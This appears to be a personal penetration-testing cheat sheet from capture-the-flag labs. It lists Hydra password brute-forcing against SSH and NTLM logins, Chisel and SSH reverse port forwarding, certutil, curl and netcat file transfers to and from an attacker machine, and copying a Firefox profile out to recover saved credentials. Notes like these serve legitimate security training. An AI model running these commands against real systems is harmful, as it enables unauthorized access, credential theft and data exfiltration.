 hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.123.199 ssh

hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'


## Port Forwarding
 
Chisel

	On kali machine start server : chisel server -p 8000 --reverse

	On the Box : ./chisel client 10.9.172.114:8000 R:8001:127.0.0.1:6666 (Forwarding internal port 6666 to attaker box as port 8001)

SSH

ssh sys-internal@10.10.255.20 -i id_rsa -L 8111:localhost:8111

## file transfers

Windows :

	certutil -urlcache -f http://<ip>/uri output.ext 

	bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe

scp file.txt user@10.10.10.x:/tmp

scp -i id_rsa hermonine@10.10.222.199:/srv/time-turner/swagger .

curl http://192.168.1.2/putty.exe -o putty.exe

tftp -i 192.168.1.2 GET file.txt // need to start msf and host a files then use this get the file and put(upolad)

php -S 0.0.0.0:8080   //use to serve http to host files 
127.0.0.1:8080/file.txt   //dwonfile from browser

Send a file using netcat
nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

Receive a file using netcat
nc -nlvp 4444 > incoming.exe

## exploit a firefox profile

compress .firefox then send to attacker machine after do this 

firefox --profile .firefox/b5w4643p.default-release --allow-downgrade 

check any saved cerds 

## SHA1 hash collision

https://sha-mbles.github.io/
	
	diffrent file has same hash is kown as hash collision

## wfuzz
